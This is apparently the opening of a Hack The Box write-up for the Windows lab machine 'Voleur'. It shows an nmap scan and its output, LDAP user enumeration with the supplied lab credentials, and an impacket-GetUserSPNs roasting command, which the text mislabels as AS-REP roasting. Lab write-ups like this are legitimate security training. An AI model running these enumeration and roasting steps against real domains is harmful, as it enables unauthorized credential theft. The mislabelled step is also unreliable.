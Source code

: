 # Voleur

## Machine Informations

As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: `ryan.naylor / HollowOct31Nyt`&#x20;



## Port Scanning

```bash
└─$ nmap -T4 -sV -p- --open -oN port_scan.txt 10.10.11.76
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-09 21:26 CEST
Nmap scan report for 10.10.11.76
Host is up (0.031s latency).
Not shown: 65513 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-10 03:28:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2222/tcp  open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
53424/tcp open  msrpc         Microsoft Windows RPC
63234/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
63235/tcp open  msrpc         Microsoft Windows RPC
63236/tcp open  msrpc         Microsoft Windows RPC
63260/tcp open  msrpc         Microsoft Windows RPC
64426/tcp open  msrpc         Microsoft Windows RPC

```



## LDAP Enumeration

With gave credentials we can access through the LDAP server.

From here we can get all AD users and save them into a file

{% code overflow="wrap" %}
```bash
ldapsearch -H ldap://voleur.htb -D "ryan.naylor@voleur.htb" -w 'HollowOct31Nyt' -b "dc=voleur,dc=htb" "(objectClass=user)" | grep "sAMAccountName: " | awk -F'sAMAccountName: ' '{print $2}' > users.txt
```
{% endcode %}

Now with the users file, try to perform ASREP roasting

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -dc-ip 10.10.11.76 -dc-host dc.voleur.htb 'VOLEUR.HTB/ryan.naylor':'HollowOct31Nyt' -usersfile users.txt
```
{% endcode %}
